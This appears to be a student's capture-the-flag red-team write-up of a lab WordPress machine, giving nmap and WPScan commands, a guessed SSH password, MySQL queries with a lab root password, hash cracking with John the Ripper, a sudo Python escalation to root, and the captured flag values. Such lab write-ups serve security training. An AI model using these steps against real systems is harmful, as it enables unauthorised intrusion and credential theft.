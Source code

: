# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.0/24
```

![Nmap Scan Results](/images/nmap%20192_168_1_0.png)

This scan identifies the services below as potential points of entry:
- Target 1 (192.168.1.110)
  - 22/tcp  open  ssh
  - 80/tcp  open  http
  - 111/tcp open  rpcbind
  - 139/tcp open  netbios-ssn
  - 445/tcp open  microsoft-ds

The following vulnerabilities were identified on each target:
- Target 1
  - Weak Passwords
  - WordPress User Enumeration
  - Port 22 open

![wpscan](

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
Target 1
- `flag1: b9bbcb33ellb80be759c4e844862482d`
- Exploit to find users:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`


![WP_Scan](/images/03%20wpscan%201.PNG)
- Logging into Target 1 as user Michael
  - Brute force/guessing Michael's password
  - Weak password too easy
  - Password: michael
- Searching directories for Flag 1
  - SSH and directory traversal
  - flag 1 found in /var/www/html folder in root in service.html in a HTML comment at "End of footer area"
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd ../`
        - `cd var/www/html`
        - `ls -l`
        - `nano service.html`


![Flag 01](/images/04%20FLAG%2001.PNG)

- `flag2: fc3fd58dcdad9ab23faca6e9a3e581c`
  - Exploit Used
    - `ssh michael@192.168.1.110` 
    - `pw: michael`
    - `cd ../` 
    - `cd ../`
    - `cd var/www`
    - `ls -l`
    - `cat flag2.txt`


![Flag2](images/05%20FLAG%2002.PNG)

- `flag3: afc01ab56b50591e7dccf93122770cd2`
  - Exploit Used
    - SSH and directory traversal
    - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
    - `show databases;`
    - `use wordpress;` 
    - `show tables;`
    - `select * from wp_posts;`


![Flag 03](/images/06%203%20flag.PNG)

- `flag4: 715dea6c055b9fe3337544932f2941ce`
  - Exploit Used
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
      - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
      - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called hashes.
        - Commands:
          - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1`
          - `show databases;`
          - `use wordpress;`
          - `show tables;`
          - `select * from wp_users;`
    - ![wp_users](/images/08%20wp%20users.png)
      - Now to crack the hashes with John the Ripper:
      - Command:
        - `john hashes`
        - There is no screenshot for this because it took too long to actually crack the hash.
      - Once the password hash was cracked, SSH is the next thing to do.
      - Then, Python was used to escalate to super user.
        - Commands:
          - `ssh steven@192.168.1.110`
          - `pw:pink84`
          - `sudo -l`
          - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
          - `cd /root`
          - `ls`
          - `cat flag4.txt`
    
[Image of Flag 04](/images/07%20FLAG%2004.PNG)

